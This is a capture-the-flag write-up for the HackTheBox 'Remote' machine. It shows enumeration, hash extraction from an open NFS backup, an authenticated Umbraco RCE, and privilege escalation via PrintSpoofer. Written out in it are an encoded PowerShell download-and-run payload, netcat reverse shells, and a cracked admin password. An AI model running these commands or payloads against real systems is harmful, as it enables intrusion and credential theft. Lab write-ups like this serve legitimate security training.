



# Remote - Easy

Target IP: **10.129.86.220**

## User Flag

Initial scan: ```sudo nmap --open -p- 10.129.86.220 -v```

We have quite a few open ports. Let's scan these deeper.

```
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
111/tcp   open  rpcbind
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
2049/tcp  open  nfs
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49678/tcp open  unknown
49679/tcp open  unknown
49680/tcp open  unknown
```

Connect and Service scan: ```sudo nmap -sC -sV -p21,80,111,135,139,445,2049,5985,47001,49664,49665,49666,49667,49678,49679,49680 10.129.86.220 -v```

There a lot of interesting information from the output.

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

First, let's check out the FTP service, as anonymous login is enabled.

However, there doesn't seem to be anything inside of it.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-8nocxxqu57]─[~]
└──╼ [★]$ ftp 10.129.86.220
Connected to 10.129.86.220.
220 Microsoft FTP Service
Name (10.129.86.220:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49685|)
125 Data connection already open; Transfer starting.
226 Transfer complete.
```

NFS on port 2049 is also interesting, we could get some information out of it.

Let's enumerate.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-8nocxxqu57]─[~]
└──╼ [★]$ showmount -e 10.129.86.220
Export list for 10.129.86.220:
/site_backups (everyone)
```

We can mount this.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-8nocxxqu57]─[~]
└──╼ [★]$ sudo mount 10.129.86.220:/site_backups /mnt/
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-8nocxxqu57]─[~]
└──╼ [★]$ ls -la /mnt
total 123
drwx------  2 nobody nogroup  4096 Feb 23  2020 .
drwxr-xr-x 19 root   root     4096 Oct 20 14:09 ..
drwx------  2 nobody nogroup    64 Feb 20  2020 App_Browsers
drwx------  2 nobody nogroup  4096 Feb 20  2020 App_Data
drwx------  2 nobody nogroup  4096 Feb 20  2020 App_Plugins
drwx------  2 nobody nogroup    64 Feb 20  2020 aspnet_client
drwx------  2 nobody nogroup 49152 Feb 20  2020 bin
drwx------  2 nobody nogroup  8192 Feb 20  2020 Config
drwx------  2 nobody nogroup    64 Feb 20  2020 css
-rwx------  1 nobody nogroup   152 Nov  1  2018 default.aspx
-rwx------  1 nobody nogroup    89 Nov  1  2018 Global.asax
drwx------  2 nobody nogroup  4096 Feb 20  2020 Media
drwx------  2 nobody nogroup    64 Feb 20  2020 scripts
drwx------  2 nobody nogroup  8192 Feb 20  2020 Umbraco
drwx------  2 nobody nogroup  4096 Feb 20  2020 Umbraco_Client
drwx------  2 nobody nogroup  4096 Feb 20  2020 Views
-rwx------  1 nobody nogroup 28539 Feb 20  2020 Web.config
```

Inside ```/App_Data```, there is an ```Umbraco.sdf``` file that holds the password hashes for the users.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-8nocxxqu57]─[/mnt/App_Data]
└──╼ [★]$ strings Umbraco.sdf
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
```

Hashcat cracks the admin hash.

```
b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese   
```

We have a set of credentials, but where do we log in? I'm suspecting that the web server is running "Umbraco." A search online reveals that the log in page is located at ```/umbraco```.

Navigating to it, we find the log in page.



Our credentials work, and we are lead to the management page.



We can see the version of Umbraco, 7.12.4.



A search online reveals that this version is vulnerable to an authenticated RCE.

I found a [PoC](https://github.com/noraj/Umbraco-RCE) we could use.

We can run the exploit, supplying a base64 encoded string of our payload to cleanly download a reverse shell script from our http server and run it, getting us a shell.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-8nocxxqu57]─[~/Umbraco-RCE]
└──╼ [★]$ python3 exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.86.220' -c powershell.exe -a '-e aQBlAHgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANQAuADEAOQA0ADoAOAAwADAAMAAvAHIAZQB2AC4AcABzADEAJwApAA==' 
```

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-8nocxxqu57]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.86.220 49698
Windows PowerShell running as user REMOTE$ on REMOTE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool
```

We can proceed to get the user flag from here.

## Root Flag

```tasklist /svc``` reveals ```TeamViewer7``` running on the remote machine.

```
TeamViewer_Service.exe        2280 TeamViewer7                                 
```

This is vulnerable to CVE-2019-18988, related to weak password requirements and key usage.

I found a [PoC](https://github.com/mr-r3b00t/CVE-2019-18988/blob/master/manual_exploit.bat) we could use.

I'm having some trouble getting this to work, so I decided to pivot.

```SeImpersonatePrivilege``` is also enabled on the machine.

Let's transfer PrintSpoofer and nc.exe.

We can start an smb server on our attack box.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-8nocxxqu57]─[~]
└──╼ [★]$ sudo impacket-smbserver share -smb2support . -user test -password test -debug
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Mount it on the remote machine and copy the files over.

```
PS C:\users\Public\Desktop> net use n: \\10.10.15.194\share /user:test test
The command completed successfully.

PS C:\users\Public\Desktop> copy n:\PrintSpoofer64.exe .
PS C:\users\Public\Desktop> copy n:\nc.exe .                        
```

After running the executable, we get a shell as ```NT AUTHORITY\SYSTEM```.

```
PS C:\users\Public\Desktop> .\PrintSpoofer64.exe -c "nc.exe 10.10.15.194 4444 -e cmd.exe"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-8nocxxqu57]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.86.220 49706
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
